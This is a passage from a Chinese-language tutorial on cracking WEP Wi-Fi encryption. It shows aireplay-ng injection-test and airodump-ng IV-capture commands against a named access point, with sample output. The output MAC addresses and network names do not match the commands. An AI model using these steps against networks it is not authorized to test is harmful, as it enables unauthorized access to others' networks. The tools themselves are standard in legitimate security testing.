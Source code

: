 # 第二阶段-数据包注入

为了确保我们能够正确地攻击网络，我们需要确保我们足够靠近以执行数据包注入。为了验证这一点，我们将运行以下命令：

```
aireplay-ng -9 -e ganon -a 00:28:6C:E4:40:80 wlan0
```

+   `-e ganon`：这是无线网络名称

+   `-a 00:28:6C:E4:40:80`：这是接入点的 MAC 地址

系统应该会回应：

```
 09:23:35  Waiting for beacon frame (BSSID: 00:14:6C:7E:40:80) on channel 9 
 09:23:35  Trying broadcast probe requests... 
 09:23:35  Injection is working! 
 09:23:37  Found 1 AP  

 09:23:37  Trying directed probe requests... 
 09:23:37  00:28:6C:E4:40:80  - channel: 9 - 'ganon' 
 09:23:39  Ping (min/avg/max): 1.827ms/68.145ms/111.610ms Power: 33.73 
 09:23:39  30/30: 100% 
```

最后一行很重要，因为我们正在寻找一个接近`100%`的值；如果这个值很低，这表明你离接入点太远或者信号不好。如果是这种情况，请尝试改变位置。

# 第三阶段 - 捕获 IVs

现在我们已经走到这一步，我们需要让它开始捕获这些有价值的 IVs。我们通过使用`airodump`来帮助我们捕获这些宝贵的信息。

打开第二个控制台会话，并保持之前的会话打开以捕获生成的 IVs。然后，输入：

```
airodump-ng -c 9 --bssid 00:28:6C:E4:40:80 -w output wlan0 
--bssid 00:14:6C:7E:40:80 is the access point MAC address. This eliminate extraneous traffic. 
-w capture is file name prefix for the file which will contain the IVs. 
```

当注入正在进行时，屏幕会看起来类似于这样：

```
 CH  9 ][ Elapsed: 8 mins ][ 2007-03-21 19:25  

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID 

 00:14:6C:7E:40:80   42 100     5240   178307  338   9  54  WEP  WEP         teddy                            

 BSSID              STATION            PWR  Lost  Packets  Probes                                              

 00:14:6C:7E:40:80  00:0F:B5:88:AC:82   42     0   183782 
```
